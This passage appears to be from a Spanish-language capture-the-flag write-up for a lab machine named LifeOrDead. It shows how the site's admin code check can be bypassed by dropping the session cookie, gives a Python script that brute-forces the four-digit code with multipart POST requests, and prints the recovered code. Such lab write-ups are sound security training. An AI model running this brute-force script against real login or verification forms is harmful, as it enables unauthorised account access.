 Luego de una investigación acerca de las respuestas del servidor frente a diferentes tipos de solicitudes. El servidor no es capaz de validar la cantidad de intentos cuando manipulamos la `cookie` de sesión 

![image-center](/assets/images/posts/lifeordead-abusing-session-validation.mp4){: .align-center}

Aprovechando esto, no necesitamos contemplar la `cookie` de `PHPSESSID`, lo que facilitaría intentar fuerza bruta para adivinar el código. Construiremos un script en python que facilite esta tarea

~~~ python
import requests

url = "http://lifeordead.dl/pageadmincodeloginvalidation.php"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
    "Accept": "*/*",
    "Content-Type": "multipart/form-data; boundary=---------------------------2893980834370073535710702065",
    "Origin": "http://lifeordead.dl",
    "Referer": "http://lifeordead.dl/pageadmincodelogin.html",
    "Connection": "keep-alive"
}

def generate_payload(code):
    boundary = "---------------------------2893980834370073535710702065"
    return f"""--{boundary}
Content-Disposition: form-data; name="code"

{code}
--{boundary}--"""

def brute_force():
    for code in range(10000):  
        code_str = f"{code:04d}" # Definimos el código de 4 dígitos
        response = requests.post(url, data=generate_payload(code_str), headers=headers)

        try:
            result = response.json()
            if result["status"] == "success":
                print(f"[+] Found code : {code_str}")
                return code_str  # Detener el script si se encuentra el código correcto
        except Exception as e:
            print(e)


if __name__ == "__main__":
	print(f"[*] Starting 'code' brute force...\n")
    brute_force()
~~~

Ejecutaremos nuestro script, deberíamos obtener el código de forma inmediata

~~~ bash
python3 brute_code.py
[*] Starting 'code' brute force...
[+] Found code : 0081
~~~
